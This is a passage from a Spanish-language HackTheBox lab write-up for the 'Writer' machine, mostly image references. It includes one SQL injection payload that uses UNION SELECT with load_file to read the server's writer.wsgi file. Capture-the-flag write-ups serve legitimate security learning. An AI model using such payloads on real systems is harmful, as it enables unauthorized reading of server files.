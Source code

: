 <img src="/assets/images/htb-writeup-writer/img23.png">
</p>

Así que vamos a leer ese ```writer.wsgi```

 - ```' union select 1,load_file("/var/www/writer.htb/writer.wsgi"),3,4,5,6 -- -```

<p align="center">
<img src="/assets/images/htb-writeup-writer/img24.png">
</p>

<p align="center">